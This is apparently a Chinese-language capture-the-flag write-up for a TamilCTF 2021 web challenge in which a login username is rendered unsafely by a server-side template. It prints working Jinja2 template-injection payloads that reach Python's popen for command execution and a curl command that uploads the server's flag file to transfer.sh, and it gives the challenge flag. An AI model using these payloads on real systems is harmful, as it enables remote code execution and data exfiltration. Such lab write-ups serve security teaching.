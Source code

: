 # Open Flag

---

访问题目中给出的链接,发现是一个登录页面
<img src="images/login.png" alt="Open Flag" style="zoom:80%;" />
随便输入一个用户名和密码直接可以登录,提示我们flag文件的路径是`./flag.jpg`.
F12看源码发现注释中会显示刚才登录所用的用户名,猜测存在SSTI漏洞,直接用注入代码作为用户名登录即可
<img src="images/image-20211119203608270.jpg" alt="image-20211119203608270" style="zoom:70%;" />

使用下列代码作为用户名登录,查看当前已加载的模块;删掉HTML的注释标记`<!--`,找到`os._wrap_close`模块所在的索引为132,借助于`popen`函数可以直接执行系统命令

```python
{{"".__class__.__bases__[0].__subclasses__()}}
```

![image-20211119212248483](../../CTF/TamilCTF2021/Web/images/image-20211119212248483.png)

使用`curl`命令将`flag.jpg`文件上传至[transfer.sh](http://transfer.sh/)

```python
{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('curl --upload-file ./flag.jpg http://transfer.sh/flag.jpg').read()}}
```
在HTML注释中找到文件上传后的URL`http://transfer.sh/bDGBlw/flag.jpg`
![image-20211119204635015](../../CTF/TamilCTF2021/Web/images/image-20211119204635015.png)

<img src="images/flag.jpg" alt="Open Flag" style="zoom:80%;" />

**flag:**`TamilCTF{SsTi_Is_VeRy_DaNgErOuS}`